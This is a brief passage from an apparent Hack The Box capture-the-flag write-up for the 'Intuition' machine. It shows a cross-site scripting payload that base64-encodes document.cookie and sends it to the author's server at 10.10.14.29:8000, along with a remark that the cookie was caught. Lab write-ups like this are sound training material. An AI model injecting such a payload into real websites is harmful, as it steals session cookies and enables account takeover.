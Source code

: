 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/intuition/image-9.png)

After successful execution, we can observe cookie being stolen on our Python server:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/intuition/image-10.png)

Similarly, we can use the following payload as well to obtain the same result:

```html
<script>var i=new Image(); i.src="http://10.10.14.29:8000/?cookie="+btoa(document.cookie);</script>
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/intuition/image-11.png)
